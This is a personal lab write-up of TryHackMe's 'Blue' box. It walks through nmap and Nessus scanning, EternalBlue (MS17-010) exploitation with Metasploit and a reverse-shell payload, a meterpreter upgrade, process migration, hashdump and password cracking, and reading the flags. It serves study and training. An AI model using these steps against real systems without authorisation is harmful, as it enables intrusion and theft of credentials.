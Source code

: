 ## TryHackMe - (Eternal)Blue Methodology

This is the attack methodology I used for TryHackMe's Blue box.
This box is a step back from Blueprint in terms of objective progression, however I found it to be a good lesson in fundementals.

---
### Environment
#### Operating System
Latest kali-VM rolling update
#### Tools
Nessus and Metasploit.

### Methodology
#### Objectives/Flags
 Flag1, This flag can be found at the system root.
 Flag2, This flag can be found at the location where passwords are stored within Windows.
 Flag3, this flag can be found in an excellent location to loot.
#### Reconnaissance
First I started by running an nmap scan on the target. It was disclosed that ICMP was not going to work so I added in the extra ```-Pn``` into the options.
```
nmap -T4 -Pn <TargetIP>
```
```
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
```
With this portscan I can see that there are a number of Windows services running on open ports. I figured this was a great time to employ a vulnerability scanner to see what more I could find.
I decided to try Nessus which is a well known vuln. scanner. Once downloading the installation file to my machine and registering for a license...
```
sudo apt install -f ./<Nessus.deb>
  service nessusd start
     https://kali:8834/
```
Once Nessus was up and running I set the Target and set it loose. A number of vulnerabilities were flagged and one stood out the most which I took to be relevant to the box.
```
port445 	MS17-010: Security Update for Microsoft Windows SMB Server (4013389) (ETERNALBLUE) (ETERNALCHAMPION) (ETERNALROMANCE) (ETERNALSYNERGY) (WannaCry) (EternalRocks) (Petya) (uncredentialed check)
```
#### Weaponization 
N/A
#### Delivery
N/A
#### Exploitation
The box walkthrough mentioned that it was time to use Metasploit which I've never used before. This required a bit of crash-coursing on google to understand the basic usage and comands. After booting it up I searched for the vulnerability code ```ms17-010``` and designated the local and remote hosts. I had additionally specified the port that was reported through Nessus but I don't know if this was needed.
```
metasploit
  search ms17-010
    exploit/windows/smb/ms17_010_eternalblue
      use [0] (exploit/windows/smb/ms17_010_eternalblue)
      set rhost <TargetIP>
      set lhost <LocalIP>
      set lport 445
      set payload windows/x64/shell/reverse_tcp (This option was reccomended by the box's objective guide)
      run
```
Success, I've now got shell access to the host. From here I was ready to start going for the flags, however the box's objective guide would walk me through upgrading the type of shell access I had to the machine. First I used ```Ctrl-Z``` to background the process and then worked to upgrade the session.
While still under the ms17-010 exploit I searched for the upgrade.
```
search shell_to_meterpreter
  use post/multi/manage/shell_to_meterpreter
sessions -l (used to display current sessions)
  set session 1
  run
```
A new session should spawn which I opened with ```session 2```.
#### Installation 
N/A
#### Command & Control
N/A
#### Actions on Objective
From here I verified the identity.
```
get system
  Already running as SYSTEM
shell
  whoami
    NT AUTHORITY\SYSTEM 
```
An interesting step which the box's objective walkthrough made me take was to migrate the process ID (PID). I didn't know this was possible but was really interesting to try. I used ```PS``` to display the processes running on the machine and was tasked to find a process which was under ```NT AUTHORITY\SYSTEM```. This had actually failed a few times and even crashed the session. I was not surprised by this as it was explained the migrate command was unstable.
The process that I went with:
```
692   596   services.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\services.exe
```
```
ps 
  migrate 692
```
According to the walkthrough Metasploit has the ability to immediately dump the Windows machine's hashes. This was so much more convenient than my attempts at extracting hashes in the Blueprint box. Instead of messing around with Hashcat however, I went straight to crackstation.
```
hashdump
  Administrator:500:<Hash>:<Hash>:::
  Guest:501:<Hash>:<Hash>:::
  Jon:1000:<Hash>:<Hash>:::
    https://crackstation.net/
      Insert <hash> -> crack
        <password>
```

After this was successful I got to work ont he flags. Considering the descriptions on their locations and my interaction with the previous box (Blueprint) I knew where these were going to be.
```
Naviagted to C:\
  flag1.txt
    cat flag1.txt
		
Listing: C:\Windows\system32\config
  flag2.txt
    cat flag2.txt

Listing: C:\Users\jon\Documents
  flag3.txt
    cat flag3.txt
  ```
---
### After-action
#### What I've learned
I really enjoyed this box as I got to explore some more powerfull industry tools. Fortunately I've had experience with vulnerability scanners in the past so Nessus was really straight forward and familiary to use,, navigate and understand. Metasploit, however was something I had never really used before but have heard so much about so getting my hands on with an objective was fantastic. I will definitely look to leaverage it's power in future exercises.
#### What I would've done differently
I would've liked to use screenshots to go along with these blog entries however the administration behind it would probably do my head in. I would however will be looking into options of screen-recoding for my own sake of documentation and will allow me to better reflect on my steps.
